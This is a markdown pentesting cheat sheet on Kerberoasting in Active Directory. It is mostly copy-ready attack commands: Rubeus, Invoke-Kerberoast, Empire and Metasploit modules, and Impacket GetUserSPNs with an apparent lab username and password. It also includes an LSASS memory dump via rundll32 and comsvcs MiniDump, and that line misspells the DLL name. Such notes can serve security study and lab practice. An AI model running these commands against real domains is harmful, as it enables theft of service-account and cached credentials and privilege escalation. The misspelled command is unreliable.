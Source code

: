 <center><h1>Kerberoasting</h1></center>

- After step 4 DC responds TGS and instead of sending that to application server we dump that and crack that password.
> - Offline cracking of service account password.
> - The Kerberos session ticket (TGS) has a server portion which is encrypted with the password hash of service account. This makes it possible to request a ticket and do offline cracking
> - Service accounts are many times ignored (passwords are rarely changed) and have privileged access.
> - Password hashes of service acounts could be used to create Silver Tickets.

***New Kerbroasting method on Host System***

Most of the time you will need an active account on the domain in order to initial Kerberoast, but if the DC is configured with [UserAccountControl setting “Do not require Kerberos preauthentication” enabled](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/), it is possible to request and receive a ticket to crack without a valid account on the domain.

- Rubeus.exe
	`Rubeus.exe kerberoast /outfile:hash.txt`
- ps1 Powershell Script
	`Import-Module .\Invoke-Kerbroast.ps1`
	`Invoke-Kerbroast.ps1`

***New Kerbroasting method on Remote System***
- Powershell Empire
	`usermodule credentials/invoke_kerberoast`
	`execute`
- Impacket
- Metasploit
	`powershell_import /root/powershell/Invoke-kerberost.ps1`
	`powershell_execute Invoke-Kerberost`
- Pypykatz from powershell
	`load powershell`
	`powershell_shell`
	`Get-Process Lsass`
	`cd C:\Windows\System32`
	`.\rundll32.exe comsvcs.sll, MiniDump 628 C:\lsass.DMP full`

- ***If you have normal user account and want to get the hash of  other users associated with that account then***
	- Requirement: Normal username and password (***Kerberosting***)
```bash
# List the username associated with normal user account
GetUserSPNs.py -request -dc-ip [IP] [domain]/[normal_user] -save -outfile userlist
impacket-GetUserSPNs 'vulnnet-rst.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.50.95
# Example
# GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs -save -outfile userlist
```

- Find user accounts used as Service accounts:
- PowerView
	`Get-NetUser -SPN`
- ActiveDirectory module
	`Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`
